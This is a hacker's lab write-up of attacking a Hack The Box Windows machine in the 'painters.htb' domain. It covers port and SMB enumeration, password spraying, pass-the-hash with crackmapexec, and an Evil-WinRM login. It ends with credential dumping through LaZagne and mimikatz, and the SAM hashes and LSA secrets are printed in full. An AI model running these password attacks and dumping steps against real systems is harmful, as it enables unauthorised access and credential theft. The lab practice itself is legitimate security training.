




Same old we need to start by enumerating the TCP protocolls for possible open ports on the machine via NMAP network scanner:

```
riley@mail:/tmp$ ./nmap -Pn 192.168.110.53

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-08 13:39 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 20.94% done; ETC: 13:39 (0:00:08 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 52.03% done; ETC: 13:39 (0:00:04 remaining)
Nmap scan report for 192.168.110.53
Host is up (0.00049s latency).
Not shown: 1179 filtered ports
PORT    STATE SERVICE
135/tcp open  epmap
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.03 seconds
riley@mail:/tmp$
```

Same here we have a window OS based on the response ports , same here we can´t perform a UPD type scan via NMAP without being root on the PIVOT machine so I will check for SNMP just in case.

```
rhosts => 192.168.110.53
msf6 auxiliary(scanner/snmp/snmp_enum) > run

[-] 192.168.110.53 SNMP request timeout.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/snmp/snmp_enum) >
```

* * *

## SMB:

As usual I will start by footprinting the SMB service with Enum4linux-ng tool:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.110.53                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.110.53
[*] Username ......... ''
[*] Random Username .. 'ucdueing'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.110.53    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.110.53    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.110.53    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 192.168.110.53    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: PNT-SVRBPA                                                                                                                                                            
NetBIOS domain name: PAINTERS                                                                                                                                                                
DNS domain: painters.htb                                                                                                                                                                     
FQDN: PNT-SVRBPA.painters.htb                                                                                                                                                                
Derived membership: domain member                                                                                                                                                            
Derived domain: PAINTERS                                                                                                                                                                     

 ===========================================
|    RPC Session Check on 192.168.110.53    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 192.168.110.53    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                     
OS version: '10.0'                                                                                                                                                                           
OS release: ''                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                            
Platform id: null                                                                                                                                                                            
Server type: null                                                                                                                                                                            
Server type string: null                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 13.54 seconds
```

Same here a WIndows os Server with build 20348 but this time the machine is the PNT-SVRBPA. I will check for password spray as well:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.53 -u users.txt -p passwords.txt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:135  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [*] Windows 10.0 Build 20348 x64 (name:PNT-SVRBPA) (domain:painters.htb) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [+] painters.htb\riley:P@ssw0rd
```

And no strange shares in SMB protocoll:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.53 -u riley -p P@ssw0rd --shares          
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:135  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [*] Windows 10.0 Build 20348 x64 (name:PNT-SVRBPA) (domain:painters.htb) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [+] painters.htb\riley:P@ssw0rd 
SMB         192.168.110.53  445    PNT-SVRBPA       [+] Enumerated shares
SMB         192.168.110.53  445    PNT-SVRBPA       Share           Permissions     Remark
SMB         192.168.110.53  445    PNT-SVRBPA       -----           -----------     ------
SMB         192.168.110.53  445    PNT-SVRBPA       ADMIN$                          Remote Admin
SMB         192.168.110.53  445    PNT-SVRBPA       C$                              Default share
SMB         192.168.110.53  445    PNT-SVRBPA       IPC$            READ            Remote IPC
```

Now here I don't see a way in since all our users are not letting us in

* * *

## BACK on SMB track:

So next week I went back and totally forgot to test the hashes we exported from the previous machines, in first place i tested to login with user/password we found out but omitted to test even the hashes:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.53 -u users.hash -H password.hash --local-auth
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:135  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [*] Windows 10.0 Build 20348 x64 (name:PNT-SVRBPA) (domain:PNT-SVRBPA) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\Administrator:6ee87fa6593a4798fe651f5f5a4e663e STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\Administrator:8af1903d3c80d3552a84b6ba296db2ea STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\mssql_svc:6ee87fa6593a4798fe651f5f5a4e663e STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\mssql_svc:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\mssql_svc:8af1903d3c80d3552a84b6ba296db2ea STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\mssql_svc:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\James:6ee87fa6593a4798fe651f5f5a4e663e STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [-] PNT-SVRBPA\James:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:445  ...  OK
SMB         192.168.110.53  445    PNT-SVRBPA       [+] PNT-SVRBPA\James:8af1903d3c80d3552a84b6ba296db2ea (Pwn3d!)
```

Nice seems like the James account/Password Hash we found from the PNT-SVRSVC LSASS memory dump, let's try to login now via Evil-WINrm and check what we can find!



* * *

## PE:

And using James local account we could get another flag hiding into local Administrators Desktop folder:

```
*Evil-WinRM* PS C:\Users\Administrator> ls downloads
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/18/2022   1:43 PM             37 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
ZEPHYR{P3r5isT4nc3_1s_k3Y_4_M0v3men7}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Now  after that I checked for other users, but except the Administrator from painters.htb nothing came out from other home directories so I will upload Lazagne, Winpeas and Mimikatz to dump all the things I can find from here.

Lazagne didn't gave back that much execept the local admin password hash.

```
*Evil-WinRM* PS C:\temp> ./lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 454567e5-578e-4ac0-b8d4-3c6d0be19ba9
[+] System masterkey decrypted for d392bf6e-cc2d-4889-8803-8bc67fde9771
[+] System masterkey decrypted for e87746b0-06b6-4325-87a1-4d5292961133

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:23ea5ff648e7ec7dcd1bfef8e9434099:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
James:1001:aad3b435b51404eeaad3b435b51404ee:8af1903d3c80d3552a84b6ba296db2ea:::

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: f32d8e7d51ed920b1ec936f2f9abdbd65ee25853
Nthash: 2dfcebbe9f5f4cb3bf98032887b3d7b6
Login: PNT-SVRBPA$

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   5D 3C C8 7C F2 60 66 1F 1A 03 9B D4 08 F1 D6 AE    ]<.|.`f.........
0020   D1 20 A0 07 39 2E 50 ED 63 68 7B A6 5D A1 BD 18    . ..9.P.ch{.]...
0030   1D AC 3F 7A 80 05 0A B0 1F 75 50 23 1E 74 C3 22    ..?z.....uP#.t."
0040   7E 10 9F A1 AB 0E 6F D8 11 91 DC DD 7F F4 4D F3    ~.....o.......M.
0050   BA 10 EC 0C CF 98 66 5F E5 86 58 51 EA 0C DE D3    ......f_..XQ....
0060   65 20 98 13 93 1E B3 F2 FE FD 39 BA 12 C9 E8 7A    e ........9....z
0070   83 CB A1 90 B6 37 A7 00 18 D7 49 D8 EC FC 60 C6    .....7....I...`.
0080   16 56 4D 5D 99 78 21 B1 9C 87 98 AC 9E 55 DD 9F    .VM].x!......U..
0090   63 57 9F 96 60 18 AE 78 A1 C0 37 27 8E 17 CB 22    cW..`..x..7'..."
00A0   1A FD 2B 8E 8F 68 AC 46 74 B1 C9 93 8D 19 20 5D    ..+..h.Ft..... ]
00B0   0E DE FD DA 8D 7F C2 28 A1 15 D3 A8 4E C3 6E F3    .......(....N.n.
00C0   E2 0C A6 9E D6 6B 98 68 A6 5A 5F 32 62 FD 21 D1    .....k.h.Z_2b.!.
00D0   4C 8A 2F 02 79 FC F8 73 36 29 29 31 F0 FE 64 A2    L./.y..s6))1..d.
00E0   F6 69 CE DB 0B 3A 7B 03 62 A1 A9 1F E0 50 38 60    .i...:{.b....P8`
00F0   98 7D 37 BB A2 3C 92 47 97 80 C8 B0 8C 9B 97 FA    .}7..<.G........
0100   AF 97 87 FB 7F CA D6 83 2A 2D AE C3 11 27 E7 85    ........*-...'..

DPAPI_SYSTEM
0000   01 00 00 00 AD 49 8B EA F7 01 B9 5A 8D D1 96 45    .....I.....Z...E
0010   50 C6 31 55 F7 2F 7A 36 F8 46 DA F7 0F 12 94 25    P.1U./z6.F.....%
0020   8B 24 A9 A5 86 EA FB F0 04 C5 CC 0B                .$..........

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   48 6D D8 24 3E D2 25 7B 96 58 D1 98 1B 7A E3 57    Hm.$>.%{.X...z.W
0020   79 5B C9 17 D2 E7 E7 1A F9 48 B4 9F D8 6D 1E A8    y[.......H...m..
0030   F8 9B 47 1C B9 E3 B2 E1 CE FC 2C 92 48 01 39 25    ..G.......,.H.9%
0040   A3 AA D4 45 A3 F4 A5 A8 4B 9B DE 1F 86 A7 5B B7    ...E....K.....[.
0050   89 3F 94 BB 39 89 6C 62 1D AC B8 69 17 C2 49 C0    .?..9.lb...i..I.


[+] 1 passwords have been found.
For more information launch it again with the -v option

elapsed time = 6.140661001205444
```

I will upload winpeas as well and report all the interesting stuff. Unfortunately I don't see anything strange here or interesting to document so far.

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 PNT-SVRBPA
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00453-60000-00000-AA756
Original Install Date:     06/03/2022, 17:49:48
System Boot Time:          11/09/2023, 05:26:40
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,035 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,548 MB
Virtual Memory: In Use:    883 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    painters.htb
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB5022507
                           [02]: KB5012170
                           [03]: KB5026370
                           [04]: KB5026493
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.110.53
                                 [02]: fe80::cf23:fa75:7a86:af50
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description      HotFixID   InstalledOn

http://support.microsoft.com/?kbid=5022507  Update           KB5022507  2/15/2023

https://support.microsoft.com/help/5012170  Security Update  KB5012170  8/10/2022

https://support.microsoft.com/help/5026370  Security Update  KB5026370  5/19/2023

                                            Update           KB5026493  5/19/2023


[*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
The command completed successfully.


 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : PNT-SVRBPA
   Primary Dns Suffix  . . . . . . . : painters.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : painters.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-79-51
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::cf23:fa75:7a86:af50%5(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.110.53(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.110.1
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-90-4F-60-00-50-56-B9-79-51
   DNS Servers . . . . . . . . . . . : 192.168.110.55
   NetBIOS over Tcpip. . . . . . . . : Enabled
   
   
   
    [+] ARP

Interface: 192.168.110.53 --- 0x5
  Internet Address      Physical Address      Type
  192.168.110.1         00-50-56-b9-20-6c     dynamic
  192.168.110.51        00-50-56-b9-d7-8a     dynamic
  192.168.110.54        00-50-56-b9-95-ff     dynamic
  192.168.110.55        00-50-56-b9-a1-9e     dynamic
  192.168.110.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static

 [+] ROUTES
===========================================================================
Interface List
  5...00 50 56 b9 79 51 ......vmxnet3 Ethernet Adapter
  1...........................Software Loopback Interface 1
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0    192.168.110.1   192.168.110.53    271
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    192.168.110.0    255.255.255.0         On-link    192.168.110.53    271
   192.168.110.53  255.255.255.255         On-link    192.168.110.53    271
  192.168.110.255  255.255.255.255         On-link    192.168.110.53    271
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link    192.168.110.53    271
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link    192.168.110.53    271
===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0    192.168.110.1  Default
===========================================================================

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    331 ::1/128                  On-link
  5    271 fe80::/64                On-link
  5    271 fe80::cf23:fa75:7a86:af50/128
                                    On-link
  1    331 ff00::/8                 On-link
  5    271 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None

 [+] Hosts file

 [+] DNS CACHE
    Record Name . . . . . : DC.painters.htb
    A (Host) Record . . . : 192.168.110.55


 [+] CURRENT USER
User name                    James
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            17/03/2022 12:28:17
Password expires             Never
Password changeable          18/03/2022 12:28:17
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/09/2023 08:34:39

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.

The request will be processed at a domain controller for domain painters.htb.


USER INFORMATION
----------------

User Name        SID
================ ============================================
pnt-svrbpa\james S-1-5-21-2952569584-3195625271-31431492-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

And lastly I will upload mimikatz and dump the hashes from SAM registry hives but we have already local admin hash and James:

```
*Evil-WinRM* PS C:\temp> ./mimikatz.exe "token::elevate" "lsadump::sam" exit
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.53:5985  ...  OK

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # token::elevate
